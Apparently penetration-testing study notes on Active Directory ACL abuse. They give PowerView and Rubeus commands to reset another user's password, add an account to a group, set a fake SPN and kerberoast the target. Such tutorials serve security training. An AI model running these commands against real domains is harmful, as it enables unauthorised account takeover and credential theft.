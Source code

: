 ## ACL Abuse Tactics

### Abusing ACLs

To perform the attack chain, we have to do the following:
- Use the `<user1>` user to change the password for the `<user2>` user
- Authenticate as the `<user2>` user and leverage GenericWrite rights to add a user that we control to the Help Desk Level 1 group
- Take advantage of nested group membership in the Information Technology group and leverage GenericAll rights to take control of the `<user3>` user

#### Change User Password
````powershell
# Creating a PSCredential Object
> $SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
> $Cred = New-Object System.Management.Automation.PSCredential('<domain>\<user1>', $SecPassword)

# Creating a SecureString Object
> $user2Password = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force

# Changing the User's Password
> Import-Module .\PowerView.ps1
> Set-DomainUserPassword -Identity <user2> -AccountPassword $user2Password -Credential $Cred -Verbose
````

#### ADD to Group
````powershell
# Creating a PSCredential Object with user2
> $SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
> $Cred2 = New-Object System.Management.Automation.PSCredential('<domain>\<user2>', $SecPassword)

# Verify Members
> Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName

# ADD to Group
> Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members '<user2>' -Credential $Cred2 -Verbose
````

#### Creating a Fake SPN & Kerberoasting
````powershell
# Creating a Fake SPN
> Set-DomainObject -Credential $Cred2 -Identity <user3> -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose

# Kerberoasting with Rubeus
> .\Rubeus.exe kerberoast /user:<user3> /nowrap
````
We could use the tool targetedKerberoast to perform this same attack from a Linux host, and it will create a temporary SPN, retrieve the hash, and delete the temporary SPN all in one command.

